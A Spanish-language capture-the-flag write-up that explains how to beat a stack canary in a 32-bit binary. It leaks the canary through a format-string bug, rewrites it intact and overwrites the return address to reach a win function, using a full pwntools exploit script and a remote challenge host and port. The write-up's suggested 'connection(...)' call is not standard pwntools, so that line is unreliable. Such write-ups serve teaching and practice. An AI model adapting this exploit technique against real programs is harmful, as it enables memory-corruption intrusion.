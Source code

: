 # Canario
También llamado como mi nuevo pajarito.

Nos encontramos ante un binario de 32 bits, little endian, sin PIE, pero a diferencia de los otros retos, con canario.

## Explicación de la solución

Primero tendremos que rutilzar la vulnerabilidad format string para leakear memoria ([aqui más info de la vulnerabilidad](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)),
obtener el canario utilizando esta vulnerabilidad, llenar el buffer, reescribir el canario con su mismo valor y ya proceder a hacer el ret2win.
Aquí se deja el payload de python3 que se puede utilizar para resolver el reto.

```python
from pwn import *

p = process('./canario')

log.info(p.clean())
p.sendline('%23$p')     # Imprimimos el canario (Mirar post de abajo)
p.recvline()
canary = int(p.recvline(), 16)  # Guardamos el canario en una variable
log.success(f'Canary: {hex(canary)}')

payload = b'A' * 33     # Llenamos el buffer
payload += p32(canary)  # Escribimos el canario original para que no salte la alarma
payload += b'A' * 12    # Escribimos el padding al return pointer
payload += p32(0x08049275)  # Dirección de la función con la flag

print(p.clean())
p.sendline(payload)
print(p.clean().decode('latin-1'))
```

En [este post](https://ir0nstone.gitbook.io/notes/types/stack/canaries) se explica mas detalladamente como se realiza el procedimiento para obtener esos valores, los cuales se deberán modificar para que sea acorde a nuestro programa. Todo está internet, solo hay que saber leer e interpretar :p

Para explotar el binario, se debería cambiar la línea `p = process('./canario')` por `p = connection("51.77.214.160", 31337)` y además realizar pequeñas modificaciones en las lineas que recibes y envías, pues por como está desplegado el reto las lineas que tu envías se vuelven a recibir.

Espero que hayais aprendido que es un canario, nos vemos pronto.
¡Happy hacking!
